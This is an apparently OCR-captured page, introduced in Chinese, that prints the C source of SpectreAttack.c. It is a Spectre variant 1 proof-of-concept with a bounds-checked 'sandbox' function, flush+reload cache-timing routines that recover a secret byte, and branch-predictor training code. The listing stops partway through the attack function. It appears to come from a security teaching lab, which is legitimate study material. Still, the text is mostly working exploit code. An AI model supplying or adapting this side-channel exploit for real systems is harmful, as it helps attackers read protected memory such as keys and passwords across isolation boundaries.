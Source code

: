 SpectreAttack.c如下：
```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
char    *secret    = "Some Secret Value";   
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (150)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  } 
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
        printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d(%c).\n",i, i);
    }
  } 
}
void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;
  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) { 
      restrictedAccess(i); 
  }
  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
```